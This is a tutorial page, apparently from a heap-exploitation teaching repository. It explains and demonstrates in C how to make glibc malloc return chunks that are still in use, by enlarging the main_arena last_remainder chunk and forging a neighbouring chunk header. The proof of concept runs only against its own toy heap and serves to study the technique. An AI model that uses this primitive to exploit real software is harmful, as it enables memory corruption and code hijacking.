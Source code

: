 <details>
<summary><strong>Description</strong></summary>
<p>

the purpose of this, is we will leverage the main_arena's last_remainder, to reallocate heap chunks that have not been freed...
> you will find it different with unsortedbin exact fit!

</p>
</details>

<details>
<summary><strong>POC</strong></summary>
<p>

> compiled with glibc `2.31`, `2.35`, `2.38` and `2.39`

```c
#include <stdio.h>
#include <stdlib.h>

void main() {
    setbuf(stdin, NULL); // disable buffering so _IO_FILE does not interfere with our heap
    setbuf(stdout, NULL);

    long *start_chunk, *end_chunk, *chunk0, *chunk1, *chunk2, *reallocated_chunk0, *reallocated_chunk1, *reallocated_chunk2;

    // the goal this time, will be to reallocate heap chunks, without freeing them
    // we will do this via leveraging the main_arena last_remainder
    // the last remainder is the leftover of a chunk allocated from the all bin searching
    // once there is a last_remainder, we will expand its size via overwriting the chunk header size
    // the expanded size will include the other chunks
    // then we will just allocate from it, to get the other allocated chunks

    start_chunk = malloc(0x5F0); // let's start off with allocating our chunks
    chunk0 = malloc(0x80);
    chunk1 = malloc(0x80);
    chunk2 = malloc(0x80);
    end_chunk = malloc(0x80);

    free(start_chunk); // then we will free the 0x600 byte chunk, to insert it into the unsorted bin

    malloc(0x700); // next we will move the chunk over to the large bin

    malloc(0x10); // now that it is in the large bin, we will allocate from it, and get a last reminder

    /*VULNERABILITY*/
    start_chunk[3] = 0x7a1; // now we will expand the size of the last_remainder chunk
    /*VULNERABILITY*/

    // start_chunk[2] = 0x000; // last_remainder prev_size (usually we dont need to care about this)

    // we need a chunk_header with the same prev_size (and prev_inuse flag not set) right after the expanded chunk, to pass checks
    // this two fields need to fengshui depend on expanded size
    end_chunk[0] = 0x7a0; // fake adjacent chunk prev_size
    end_chunk[1] = 0x080; // fake adjacent chunk size

    malloc(0x5d0); // allocate an amount, to lineup the last_remainder with chunk0
    reallocated_chunk0 = malloc(0x80); // reallocate chunk0
    reallocated_chunk1 = malloc(0x80); // reallocate chunk1
    reallocated_chunk2 = malloc(0x80); // reallocate chunk2

    printf("chunk0: %p and reallocated_chunk0: %p\n", chunk0, reallocated_chunk0);
    printf("chunk1: %p and reallocated_chunk1: %p\n", chunk1, reallocated_chunk1);
    printf("chunk2: %p and reallocated_chunk2: %p\n", chunk2, reallocated_chunk2);
}
```

</p>
</details>

<details>
<summary><strong>Explain</strong></summary>
<p>

so for this, our goal will be to reallocate chunks 0-2, leveraging the main arena's last remainder.

the last_remainder is a chunk, which is actually stored in the main_arena. The last_remainder is set, when a chunk is allocated using the all bin functionallity, and the remainder from that chunk is large enough to warrant a last_remainder. The last_remainder chunk will be inserted into the unsorted bin.

**when the last_remainder chunk is the only chunk in the unsorted bin, malloc can actually continually break off smaller pieces of it, and allocate those smaller chunks. We will leverage this functionallity**.

how we will accomplish our goal is by doing this. We will have a chunk, become the last_remainder, that is before the areas we want to allocate. We will expand it's size via overwriting the chunk size, to encompass the areas we want to allocate. Right after that chunk, we will set a fake chunk header, with a prev_size that matches our expanded last_remainder chunk size, and a chunk size that has the prev_inuse bit flag not set (and hopefully lines up with the next chunk, to avoid potential issues).

then simply, we will first allocate a chunk from the last_remainder, to line it up with chunk0 (0x5d0). Then, we will simply reallocate chunk0/chunk1/chunk2 (they are all directly adjacent, no alignment allocations in between necissary).

</p>
</details>

<details>
<summary><strong>Ref</strong></summary>
<p>

- https://github.com/guyinatuxedo/Shogun/blob/main/pwn_demos/unsorted_bin/last_remainder/readme.md
- https://github.com/guyinatuxedo/Shogun/blob/main/heap_demos/large_bin/all_bin_searching/readme.md

</p>
</details>